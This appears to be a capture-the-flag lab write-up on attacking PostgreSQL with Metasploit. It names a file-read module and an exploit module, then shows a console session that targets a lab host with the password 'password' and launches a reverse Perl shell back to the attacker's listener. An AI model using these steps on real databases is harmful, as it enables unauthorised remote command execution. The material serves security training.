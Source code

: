 
### What is the full path of the module (starting with auxiliary) that allows an authenticated user to view files of their choosing on the server?
- **Answer:** auxiliary/admin/postgres/postgres_readfile

### What is the full path of the module that allows arbitrary command execution with the proper user credentials (starting with exploit)?
- **Answer:** exploit/multi/postgres/postgres_copy_from_program_cmd_exec

---

## Initial Access

```bash
msf6 > use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > options

Module options (exploit/multi/postgres/postgres_copy_from_program_cmd_exec):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   DATABASE           template1        yes       The database to authenticate against
   DUMP_TABLE_OUTPUT  false            no        select payload command output from table (For Debugging)
   PASSWORD           postgres         no        The password for the specified username. Leave blank for a random password.
   RHOSTS                              yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT              5432             yes       The target port (TCP)
   TABLENAME          YL9S0cxgNdR      yes       A table name that does not exist (To avoid deletion)
   USERNAME           postgres         yes       The username to authenticate as


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set RHOSTS 10.10.181.37
RHOSTS => 10.10.181.37
msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set LHOST tun0
LHOST => 10.17.7.91
msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set PASSWORD password
PASSWORD => password
msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > exploit

[*] Started reverse TCP handler on 10.17.7.91:4444 
[*] 10.10.181.37:5432 - 10.10.181.37:5432 - PostgreSQL 9.5.21 on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 5.4.0-6ubuntu1~16.04.12) 5.4.0 20160609, 64-bit
```